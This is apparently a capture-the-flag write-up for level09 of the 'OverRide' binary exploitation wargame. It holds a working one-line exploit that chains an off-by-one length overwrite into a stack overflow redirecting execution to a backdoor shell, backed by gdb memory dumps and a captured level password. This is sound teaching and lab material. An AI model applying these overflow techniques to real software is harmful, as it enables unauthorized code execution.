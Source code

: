 ## Solution

```
(python -c "print 'A' * 40 + '\xff' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'"; cat -) | ./level09
```  


## Execution

```
level09@OverRide:~$ ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: cboutier
>: Welcome, cboutier
>: Msg @Unix-Dude
>>: hello
>: Msg sent!
```

## Explanation

```
info func
0x000000000000088c  secret_backdoor
0x00000000000008c0  handle_msg
0x0000000000000932  set_msg
0x00000000000009cd  set_username
0x0000000000000aa8  main
```

There is a struct as it is accessing the username by doing param+140, and it is accessing the message length, by doing param+180.
```
struct input
{
	char msg[140]; 		// param
	char username[40];	// param+140
	int len;			// param+180
}
```
There is an uncalled secret_backdoor function, which calls system with an input from the user as argument.  
We want to rewrite EIP so it calls this secret_backdoor function.  

In the set_username function, the copy of the username is not correctly done.
It is copying i <=40 chars, and not i < 40 as it should (username[40]). So we can overwrite the byte following username[40], which will be the length of the message, as we are in a struct.  


Let's find the offset, to know from where we can overwrite:  
```
(gdb) b *0x000055555555492b		// @ puts in handle_msg(), need to run the program once, to get the correct addresses
Breakpoint 1 at 0x55555555492b
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: AAAA
>: Welcome, AAAA
>: Msg @Unix-Dude
>>: BBBB

Breakpoint 1, 0x000055555555492b in handle_msg ()
(gdb) x/100wx $rsp
0x7fffffffe500:	0x42424242	0x0000000a	0x00000000	0x00000000		--> Message starts at 0x7fffffffe500
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe580:	0x00000000	0x00000000	0x00000000	0x41414141		--> username starts at 0x7fffffffe58c
0x7fffffffe590:	0x0000000a	0x00000000	0x00000000	0x00000000
0x7fffffffe5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe5b0:	0x00000000	0x0000008c	0xffffe5d0	0x00007fff		--> len is at 0x7fffffffe5b4 (0x8c = 140)
0x7fffffffe5c0:	0xffffe5d0	0x00007fff	0x55554abd	0x00005555
0x7fffffffe5d0:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff

(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x55555555492b in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8 <--
```

--> our struct starts at 0x7fffffffe500, and the rip we want to overwrite is at 0x7fffffffe5c8.
```
(gdb) p 0x7fffffffe5c8-0x7fffffffe500
$7 = 200
```

The offset is 200, from the message input.

However, the length is set at 140, and is used in strncpy in set_message.  
We can try to increase the size of the message by taking advantage of the <= 40 check, that allows us to overwrite 1 byte. Let's overwrite it to the max, which is `\xff`.  
Secret_backdoor address:  
`0x000055555555488c  secret_backdoor`

So, the payload will look like this:  
- 40 bytes to fill the username buffer -> 'A' * 40
- 1 byte to overwrite len -> \xff
- a new line to "validate" the username -> '\n'
- 200 bytes to fill the message buffer until we reach the RIP -> "A" * 200
- the address of secret_backdoor() -> \x8c\x48\x55\x55\x55\x55\x00
- a new line to "vaidate" the message -> '\n'
- the system() call on the secret_backdoor takes as an argument an input -> '/bin/sh'

```
(python -c "print 'A' * 40 + '\xff' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh'"; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

level09@OverRide:~$ su end
Password: 
end@OverRide:~$ ls
end
end@OverRide:~$ cat end 
GG !
```